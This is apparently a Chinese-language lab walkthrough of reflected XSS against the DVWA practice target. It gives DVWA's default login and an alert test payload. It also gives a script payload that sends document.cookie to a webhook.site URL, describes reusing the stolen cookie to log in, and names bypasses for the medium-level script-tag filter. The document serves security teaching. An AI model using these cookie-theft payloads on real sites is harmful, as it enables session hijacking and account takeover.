


# DVWA 靶机 XSS

首先，DVWA 靶机默认账号 admin 密码 password。  
## XSS(REflected)
### Low
low 级别的代码对用户输入没有任何过滤和检查，直接输出到页面。  
基础验证：输入框输入：  
``` html
<script>alert('XSS')</script>
```

提交后弹出显示 XSS 的对话框，证明漏洞存在。  


我本地用 `python -m http.server` 搭建的服务器没办法用，所以我用 [webhook.site](webhook.site) 来获取 cookie。  



这里把 URL 复制。  

构造一个:
```
<script>new Image().src="webhook 的 uRL 地址 ?c="+document.cookie;</script>
```

比如：  
``` html
<script>new Image().src="https://webhook.site/aea1600f-f33b-40c2-a371-a5b006784796?c="+document.cookie;</script>
```

回到 webhook.site 这时候就获取到 cookie 了：  



用这个 cookie 可以直接免密登录：  
直接 F12 开发者模式覆写 cookie 比如改改 Security Level 之类。  

### Medium
medium 多了对 `<script>` 的检测：  
``` php
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
```

绕过方法就是大小写或者用 `<img`
